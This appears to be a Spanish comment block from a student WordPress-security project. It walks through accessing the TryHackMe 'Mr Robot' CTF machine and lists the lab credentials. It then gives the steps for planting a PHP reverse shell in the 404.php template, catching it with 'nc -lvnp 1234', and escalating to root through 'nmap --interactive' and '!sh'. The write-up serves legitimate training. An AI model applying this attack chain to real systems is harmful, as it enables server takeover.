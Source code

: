 # Al no conseguir instalar algunas de las versiones vulnerables de WordPress (y sus softwares necesarios; PHP, MySQL, Apache2...), hemos decidido usar una máquina ya existente de un Capture The Flag de TryHackMe ->
# El Capture The Flag en cuestión es robot, hemos resuelto el CTF para poder acceder a la máquina y modificar a nuestro gusto las configuraciones de WordPress.

# Para acceder a esta máquina se deben seguir los siguientes pasos:
# 1. Entrar en nuestra cuenta de TryHackMe
# 2. Descargar el archivo de configuración de OpenVPN para conectarnos a la red de TryHackMe
# 3. Ejecutar con "sudo openvpn archivo.ovpn"
# 4. Navegar a https://tryhackme.com/room/robot
# 5. Iniciar la máquina y esperar a que cargue la dirección IP de esta
# 6. Entrar a http://IP/wp-admin y usar las credenciales "elliot" - "ER28-0652" (sin las dobles comillas)

# A partir de aquí ya tenemos más que suficiente para añadir o arreglar las vulnerabilidades que podamos, pero para acceder al servidor Linux y conseguir usuario root haremos lo siguiente:
# 7. En el panel de WordPress, iremos a Templates > Editor > 404.php
# 8. Borraremos todo lo que hay en este archivo y añadiremos el reverse shell de https://github.com/a20marsimsim/cms_wordpress_pildoras/blob/main/ataque/reverse_shell.php y editaremos la IP para poner la de nuestra interfaz de la VPN
# 9. Ejecutaremos en nuestro sistema el comando "nc -lvnp 1234" e iremos a http://IP_VICTIMA/404.php
# 10. Una vez hecho esto, en la terminal donde hemos ejecutado el comando "nc -lvnp 1234" obtendremos una shell con el usuario daemon en el servidor de la "víctima"
# 11. Antes de nada, ejecutaremos este comando para obtener una terminal con /bin/bash: "python3 -c 'import pty; pty.spawn("/bin/bash")'". Ahora nos conectaremos al usuario "robot" con "su robot" y con la contraseña "abcdefghijklmnopqrstuvwxyz"
# 12. Una vez estemos dentro del usuario "robot" iremos al directorio raíz y ejecutaremos "nmap --interactive", nos aparecerá un "dialogo" donde escribiremos "!sh", tras escribir esto, obtendremos una shell con el usuario "root".


# Para conseguir todo esto hemos resuelto el CTF de la siguiente manera: https://github.com/a20marsimsim/cms_wordpress_pildoras/blob/main/writeup_mrrobot.pdf
